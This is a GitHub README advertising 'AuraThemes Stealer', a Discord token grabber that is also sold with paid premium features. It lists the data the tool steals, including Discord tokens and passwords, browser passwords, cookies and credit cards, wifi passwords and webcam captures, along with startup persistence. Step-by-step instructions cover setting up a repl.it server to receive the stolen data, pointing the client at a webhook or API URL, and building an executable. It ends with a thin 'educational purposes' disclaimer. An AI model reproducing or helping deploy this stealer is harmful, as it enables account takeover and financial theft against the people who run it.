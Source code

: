 # <a id="home"></a> AuraThemes - Stealer

## Littleraly One Of The Best Stealer

---

#### [Discord](https://discord.gg/5BJa778F7B) - [Build](#salepute) - [Turorial](#tutorial) 

AuraThemes Stealer: Steal discord tokens and get privileged access!

Our powerful AuraThemes Stealer is a tool designed to help get Discord tokens to access user accounts. With the built-in API, you don't run the risk of your Webhook disappearing. <br>
<br>

the best version of a (stealer), in this case it is AuraThemes, with the best form of an OP version

✅: Premium Features (20€ - Join Discord)

## Features
- Grabs Discord Token
- Discord Password (even when it's changed)
- IP Address (Public)
- Discord New Email (when Changed)
- Discord New Password (when Changed)
- Alert When MFA is Enabled
- Alert When MFA is Disabled
- Mac Address (✅)
- UUID (✅)
- Windows Product Key (✅)
- Local IP (✅)
- Wifi Passwords (✅)
- Bot Builder (✅)
- Alert When Paypal Is Added (✅)
- Credit Card When Added (✅)
- Browsers Passwords & Cookies (✅)
- More PC Infos (✅)
- Webcam & Screenshot (✅)
- Steam (✅)
- Add To Startup (✅)
- AutoFill (✅)
- Browsers Credit Cards (✅)
- Stored Discord Backup Codes (✅)
- BookMarks (✅)
- Browsers History (✅)
- Bypass Discord Token Protection (✅)
- Minecraft Grabber (✅)
- In Dev And More...

## <a id="salepute"></a> Free Version Installation

When Done: 
```bash
git clone https://github.com/k4itrun/AuraTokenGrabber
```
```bash
cd AuraTokenGrabber
```
```bash
npm i -g
```
```bash
Setup Your desktopServer/server.js in repl.it
In the desktopClient/client.js replace https://yourapi.com by your api
```
```js
10 | apiurl = "http://yourapi.com" // Put Your API URL Here in desktopClient/client.js
```
```bash
node desktopClient/client.js
```
```bash
build EXE: npm run build
```

---

### <a id="tutorial"></a> TUTORIAL USE Mode of use

Create a new project on repl.it to create the API server. This is where you will receive the data sent by the client. (Just copy the contents of [Server api](https://raw.githubusercontent.com/k4itrun/AuraTokenGrabber/main/desktopServer/server.js) and paste it into your repl.it index file). Once you do that, you will have the receiving API set up.

> Add your webhook URL in

```js
12 | x = { //added new webhook URL
    webhookURL: "URL"
    }
```

> Now, in the client section, go to (client) and change line 10 in client.js file:

```js
10 | apiurl = "http://yourapi.com" // Put Your API URL Here in desktopClient/client.js
```

> Replace it with the URL of your previously created API server on repl.it.

With this, everything should be set up correctly, and it should work by running `node client.js`.

### THIS SCRIPT was made for Educational purposes
[Home](#home)

## README Spanish soon...

*⚠️: I AM NOT **RESPONSIBLE** FOR THE MISUSE OF THIS Script, Nor of the bad use that they give it.*
